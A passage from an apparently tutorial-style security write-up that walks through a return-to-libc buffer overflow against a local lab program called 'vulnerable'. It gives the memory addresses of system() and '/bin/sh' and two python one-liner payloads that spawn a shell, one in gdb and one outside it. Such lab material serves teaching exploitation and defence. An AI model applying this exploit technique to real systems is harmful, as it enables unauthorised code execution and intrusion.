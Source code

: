 ## Exploiting

Assuming we need to send 16 bytes of garbage to the vulnerable program before we can overwrite its return address, and make it jump to `system()` \(located at `0xb7e13870`, expressed as `\x70\x38\xe1\xb7` due to little-endianness\), which will execute `/bin/sh` that's present in  `0xb7f52968` \(expressed as `\x68\x29\xf5\xb7`\), the payload in general form looks like this:

```csharp
payload = A*16 + address of system() + return address for system() + address of "/bin/sh"
```

...and when variables are filled in with correct memory addresses, the final exploit looks like this:

```c
r `python -c 'print("A"*16 + "\x70\x38\xe1\xb7" + "\x30\x6c\xe0\xb7" + "\x68\x29\xf5\xb7")'`
```

Once executed, we can observe how `/bin/sh` gets executed:

![Vulnerable program spawns a /bin/sh shell](../../../.gitbook/assets/image%20%28842%29.png)

Let's see if the exploit works outside gdb:

{% hint style="warning" %}
Addresses of `system()`, `exit()` and `/bin/sh` used in the below payload are different to those captured in earlier screenshots due to a rebooted VM.
{% endhint %}

```python
./vulnerable `python -c 'print("A"*16 + "\x40\xe0\xe0\xb7" + "\x90\xb3\xf0\xb7" + "\x3c\x53\xf5\xb7")'`
```

![Once the vulnerable program is exploited, it spawns a /bin/sh](../../../.gitbook/assets/exploit-outside-gdb.gif)
